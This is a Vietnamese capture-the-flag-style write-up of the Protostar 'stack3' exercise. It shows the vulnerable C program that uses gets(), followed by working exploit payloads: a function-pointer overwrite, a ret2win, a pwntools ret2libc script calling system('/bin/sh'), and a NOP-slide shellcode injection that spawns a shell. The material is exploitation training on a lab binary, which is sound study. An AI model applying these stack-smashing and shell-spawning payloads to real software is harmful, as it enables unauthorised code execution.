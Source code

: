 # stack3

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void win()
{
  printf("code flow successfully changedn");
}
 
int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];
 
  fp = 0;
 
  gets(buffer);
 
  if(fp) {
      printf("calling function pointer, jumping to 0x%08xn", fp);
      fp();
  }
}
```

hàm main()

![main](main.png)

Bài này cũng tương tự các bài trước, ta chỉ cần tìm địa chỉ của hàm win rồi tìm cách gán cho biến fp.

```ASM (Intel syntax)
0x08048424 <+0>:     push   ebp    
0x08048425 <+1>:     mov    ebp,esp    
0x08048427 <+3>:     sub    esp,0x18    
0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540    
0x08048431 <+13>:    call   0x8048360 <puts@plt>    
0x08048436 <+18>:    leave      
0x08048437 <+19>:    ret
```

Ta có địa chỉ hàm win tại `0x08048424`

## Solution

### ghi đè fp

payload:`python -c 'print "a"*64+"\x24\x84\x04\x08"' | ./stack3`

![fp](fp.png)

### Ret2win

trước tiên ta cần truyền giá trị hợp lệ cho fp, mình sẽ để nó trỏ đến lệnh ngay sau call EAX. Sau đó ghi đè EIP bằng địa chỉ hàm win. Dùng cyclic và gdb tìm đc nốt phần padding phía sau là 12byte.
payload: `python2 -c 'print "a"*64+"\x77\x84\x04\x08"+"a"*12+ "\x24\x84\x04\x08"' | ./stack3`
![sol2](sol2.png)

## spawn shell

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*64+p32(0x08048477)+b"a"*12   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process
p = process('./stack3')
p.sendline(payload)
p.interactive()
```

![shell1](shell1.png)

### inject shellcode

```python
from pwn import *
elf = context.binary = ELF('./stack1')

padding = b"a"*64+p32(0x08048477)+b"a"*12
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack3'])
p.sendline(payload)
p.interactive()
```

